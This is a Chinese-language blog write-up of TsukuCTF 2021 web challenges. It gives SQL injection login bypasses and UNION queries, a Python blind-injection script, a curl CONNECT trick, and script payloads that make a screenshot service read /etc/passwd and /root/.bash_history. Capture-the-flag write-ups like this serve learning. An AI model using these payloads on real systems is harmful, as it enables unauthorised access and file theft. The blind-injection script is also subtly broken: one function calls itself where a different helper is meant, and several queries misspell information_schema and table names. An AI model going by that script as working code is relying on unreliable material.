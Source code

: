 ```yaml
---
title: "TsukuCTF2021 Wp"
slug: "tsuku2021-wp"
description: "水一下，题不太难，但也学到一些新东西"
date: 2021-09-13T19:15:21+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


这两天又开始有点摆烂的迹象，于是把周末的ctf看看wp，水一水，复现一下

另外这个ctf最痛苦的地方在于是英日夹杂，我开始懂歪果仁做中文比赛页面的时候有多痛苦了

## Web/logonly

给出的是一个有214155行的日志文件，只有第214154行返回200ok

显然是进行了一个字典攻击，在第214154次尝试时撞对了，我们下载一份kali里的rockyou.txt中看一下214154是个啥（有提示用到kali进行攻击）

![image-20210912171725965](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210912171725965.png)

`TsukuCTF{qwertyuiop[]\\}`

## Web/digits

一个fastapi站，但是要求不是很高的样子

![image-20210912174109098](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210912174109098.png)

![image-20210912174032687](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210912174032687.png)

加号放到url中相当于半角空格

`TsukuCTF{you_are_lucky_Tsukushi}`

## Web/login

登录框，万能密码`admin'or 1#`

`TsukuCTF{You_4r3_SUP3R_H4CKER}`

一般这种简单的登录都是万能密码，但是也得多试一试，加个注释符啊 分号什么的

## Web/login2

说是代码重构过了

再用上面的万能密码登入会显示这个站的所有账号

![image-20210912175523340](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210912175523340.png)

说明还是有sqli，尝试一下联合注入`admin'or 1 union select null,null#`，跟上面是一样的回显，说明有两列，然后是愉快的注入（每一次的回显在页面的末尾，注意这个是最初要找到并确认的）

```
admin'or 1 union select table_name,null from information_schema.columns#
admin'or 1 union select column_name,null from information_schema.columns where table_name='super_secret_table'#
admin'or 1 union select secret,null from super_secret_table#
```

`TsukuCTF{50_muCh_GR3AT_Hacker_!ND3ED}`

## Web/login3

依然是存在sqli，用上面的两个payload都能回显正常，但是没有明确的信息，应该是需要盲注了

```python
import requests
def _execAnyQuery_core(query, pos, mid):
    url = ""
    params = {
        "name": "'or ascii(substring(({0}),{1},1))>={2};#".format(query, pos, mid),
        "password": "a"
    }
    page = requests.post(url, data = params)
    return "ようこそ" in page.text

def _execAnyQuery(query, pos):
    low = 0
    high = 256
    while high - low > 1:
        mid = (high + low) // 2
        if _execAnyQuery(query, pos, mid):
            low = mid
        else:
            high = mid
    return low

def execAnyQuery(query):
    i = 1
    while True:
        char = int(_execAnyQuery(query, i))
        if char == 0:
            return
        print(chr(char), end="")
        i += 1

execAnyQuery("select version()")

for i in range(100):
    execAnyQuery("select distinct table_name from information_schema.columnns limit 1 offset {0}".format(i))
    print()

for i in range(10):
    execAnyQuery("select distinct column_name from information_shcema.columns where table_name='urtla_secret_tsukushi'limit 1 offset {0}".format(i))
    print()

for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi_limit 1 offset {0}".format(i))
```

这是官方wp里的二分法脚本，把简单的事拆成了3个函数，倒是也好，可复用性max

`TsukuCTF{U_Are_Geni0us_T$UKUSH1}`

## Web/Journey

抓包看，有很多307重定向，还以为是跟之前那个一样要跑一下一千多次的重定向，但是这个重定向是有限度的，最后的位置是/problems/journey/goal，回显405错误

看wp，学到了

```bash
curl -H 'Referer: https://tsukuctf.sechack365.com/problems/journey/railway/1' -X CONNECT https://tsukuctf.sechack365.com/problems/journey/goal
```

![image-20210913114745032](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210913114745032.png)

利用的是http请求中的connect方法，相关内容可参见->[CONNECT(MDN)](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Methods/CONNECT)  |  [HTTP之connect method](https://www.jianshu.com/p/54357cdd4736)

## Web/gyOTAKU

![image-20210913120544616](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210913120544616.png)

![image-20210913120625401](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210913120625401.png)

满足17行要求的话会通过chromium browser来返回一个截图

我们构造一个如下的html页面

```
<script>alert(1);</script>
```

返回500错误，再试一下

```
<script>location.href="/etc/passwd"</script>
```

成功返回

![image-20210913190757615](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210913190757615.png)

用一下我们的老朋友/root/.bash_history

```
<script>location.href="/root/.bash_history"</script>
```

![image-20210913191326852](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210913191326852.png)

可以读一下flag了

```
<script>location.href="/root/flagc464f9eba1.txt"</script>
```

`TsukuCTF{Tsukushi_to_Sugina_no_chigai_ga_wakaran}`

------

水一篇wp，水水更健康